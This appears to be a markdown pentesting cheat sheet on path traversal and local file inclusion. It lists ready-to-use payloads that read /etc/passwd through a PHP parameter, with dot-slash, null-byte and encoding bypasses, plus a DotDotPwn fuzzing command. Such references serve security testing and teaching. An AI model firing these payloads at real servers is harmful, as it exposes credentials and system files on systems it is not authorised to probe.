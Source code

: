 # Path Traversal/File Inclusion

Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

* Application code and data.
* Credentials for back-end systems.
* Sensitive operating system files.

## Basic LFI and bypasses

```bash
http://example.com/home.php?id=../../../etc/passwd
http://example.com/home.php?id=....//....//etc/passwd
http://example.com/home.php?id=..///////..////..//////etc/passwd
http://example.com/home.php?id=....//....//....//etc/passwd
http://example.com/home.php?id=....\/....\/....\/etc/passwd
http://example.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
http://example.com/home.php?id=/var/www/../../etc/passwd
```

## Null Byte

Bypass by appending additional characters to the end of the provided string (bypassing: `$_GET['param']."php"`)

```bash
http://example.com/home.php?id=../../../../etc/passwd%00
```

This is **solved since PHP 5.4**

## Encoding

You could use non-standard encondings like double URL encode:

```bash
http://example.com/home.php?id=..%252f..%252f..%252fetc%252fpasswd
http://example.com/home.php?id=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd
http://example.com/home.php?id=%252e%252e%252fetc%252fpasswd%00
```

## From existent folder

It's possible that the back-end is verifying the folder path:

```bash
http://example.com/home.php?id=utils/scripts/../../../../../etc/passwd
```

## [DotDotPwn](https://github.com/wireghoul/dotdotpwn)

It's a very flexible intelligent fuzzer to discover traversal directory vulnerabilities in software such as HTTP/FTP/TFTP servers, Web platforms such as CMSs, ERPs, Blogs, etc.

```bash
 ./dotdotpwn.pl -m http-url -u https://example.com/image?id=TRAVERSAL -O -k "root:"
```

